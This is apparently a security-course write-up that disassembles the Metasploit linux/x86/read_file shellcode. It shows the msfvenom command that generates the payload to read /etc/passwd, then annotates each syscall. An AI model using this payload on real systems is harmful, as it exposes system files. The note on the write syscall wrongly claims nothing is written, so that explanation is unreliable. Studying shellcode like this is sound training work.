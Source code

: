 # Solution

If we dump the nasm code from the payload (msfvenom -p linux/x86/read_file PATH=/etc/passwd -f raw | ndisasm -u -), here is what we can see:

    00000000  EB36              jmp short 0x38
    00000002  B805000000        mov eax,0x5
    00000007  5B                pop ebx
    00000008  31C9              xor ecx,ecx
    0000000A  CD80              int 0x80
    0000000C  89C3              mov ebx,eax
    0000000E  B803000000        mov eax,0x3
    00000013  89E7              mov edi,esp
    00000015  89F9              mov ecx,edi
    00000017  BA00100000        mov edx,0x1000
    0000001C  CD80              int 0x80
    0000001E  89C2              mov edx,eax
    00000020  B804000000        mov eax,0x4
    00000025  BB01000000        mov ebx,0x1
    0000002A  CD80              int 0x80
    0000002C  B801000000        mov eax,0x1
    00000031  BB00000000        mov ebx,0x0
    00000036  CD80              int 0x80
    00000038  E8C5FFFFFF        call 0x2
    0000003D  2F                das
    0000003E  657463            gs jz 0xa4
    00000041  2F                das
    00000042  7061              jo 0xa5
    00000044  7373              jnc 0xb9
    00000046  7764              ja 0xac
    00000048  00                db 0x00

Let's analyze the content of this step by step.

   1) 00000000  EB36              jmp short 0x38 ; Jump to 0x38 

   2) 00000038  E8C5FFFFFF        call 0x2 ; Execute 0x2

   3)  00000002  B805000000        mov eax,0x5 ; 5 is set to EAX <=> Syscall, function open selected

       00000007  5B                pop ebx ; The content of the top of the stack is set to ebx, 
                                            ; in this case, /etc/passwd).
    
![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%205/read_file/pop_ebx.PNG "Pop Ebx")

   4)  00000008  31C9              xor ecx,ecx ; Clearing out ecx, now is 0
       
   5)  0000000A  CD80              int 0x80 ; int open(const char *pathname, int flags); open(/etc/passwd, 0) 
   
       where EAX is 5=OPEN, EBX is etc/passwd=PATH and ECX is 0=FLAGS
   
   6) 0000000C  89C3              mov ebx,eax ; Eax is set to ebx
   
   7) 0000000E  B803000000        mov eax,0x3  ; Eax is set to 3 <=> Syscall, function read selected
   
   8) 00000013  89E7              mov edi,esp ; Top of stack set to edi;
   
   9) 00000015  89F9              mov ecx,edi ; Edi set to ecx;
   
   10)00000017  BA00100000        mov edx,0x1000 ; Edx set to 4096 (decimal)
   
   11)0000001C  CD80              int 0x80 Read function executed --> ssize_t read(int fd, void *buf, size_t count);
   
   ;EAX=3=READ,EBX=3=FD, ECX=EDI=BUF, EDX=4096=COUNT
   
   12) 0000001E  89C2              mov edx,eax ; EDX set to EAX
   
   13) 00000020  B804000000        mov eax,0x4 ; Eax to 4 <=> Syscall, function write
   
   14) 00000025  BB01000000        mov ebx,0x1 ; Ebx=1
   
   15) 0000002A  CD80              int 0x80 ; ssize_t write(int fd, const void *buf, size_t count);
 
   ; In this case, the function called is not executed as a write, is just called but no writing is done.
 
   16) 0000002C  B801000000        mov eax,0x1 ; Exit called
   
   17) 00000031  BB00000000        mov ebx,0x0
   
   18) 00000036  CD80              int 0x80 ; Execution of exit 
   
